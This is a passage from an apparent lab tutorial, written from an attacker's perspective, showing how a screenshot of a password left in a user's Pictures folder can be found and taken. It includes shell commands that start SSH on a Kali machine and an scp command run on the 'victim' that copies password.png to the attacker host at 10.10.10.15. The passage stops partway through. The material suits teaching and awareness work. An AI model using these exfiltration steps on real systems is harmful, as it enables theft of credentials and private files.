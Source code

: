 {{< image src="/images/posts/screenshot-password.png" caption="Flameshot Screenshot Password" src_s="/images/posts/screenshot-password.png" src_l="/images/posts/screenshot-password.png" >}}

Save it to the Pictures directory:

{{< image src="/images/posts/password-png.png" caption="Password" src_s="/images/posts/password-png.png" src_l="/images/posts/password-png.png" >}}

From the adversary's perspective we can see this image stored in the `/home/user/Pictures` directory:

```shell
user@pwn:~$ ls -l Pictures/
total 8
-rw-rw-r-- 1 user user 7955 Jan  5 20:43 password.png
```

As we can see from the above this looks very interesting, as an adversary we could try to transfer this image to our adversary host. There are many ways in which we could transfer files. I'm just going to keep it simple by using scp. Let's check if scp is installed in the target/victim machine:

```shell
user@pwn:~$ which scp
/usr/bin/scp
user@pwn:~$ 
```

Now we're going to use the adversary host/machine and view our IP address:

```shell
❯ ip -color=auto --brief address show
lo               UNKNOWN        127.0.0.1/8 ::1/128
eth0             UP             10.10.10.15/24 fe80::20c:29ff:fec5:fd0/64
```

Lastly, let's start the SSH service in our adversary host:

```shell
❯ sudo systemctl start ssh && sudo systemctl status ssh | grep active
     Active: active (running) since Wed 2021-01-05 19:51:46 EST; 7min ago
```

From the victim machine/target let's log in to our SSH service and transfer the file at the same time with scp:

```shell
user@pwn:~$ scp /home/user/Pictures/password.png kali@10.10.10.15:/home/kali/Pictures
The authenticity of host '10.10.10.15 (10.10.10.15)' can't be established.
ECDSA key fingerprint is SHA256:+sekweCXMu7Qr1XeTiYW4Ucu6gvZVtcBJy7UtbzemsI.
Are we sure we want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.15' (ECDSA) to the list of known hosts.
kali@10.10.10.15's password: 
password.png                                                                                                                                100% 7955     6.6MB/s   00:00    
user@pwn:~$ 
```

Now in our adversary host/machine, let's navigate to the `/home/kali/Pictures` directory:
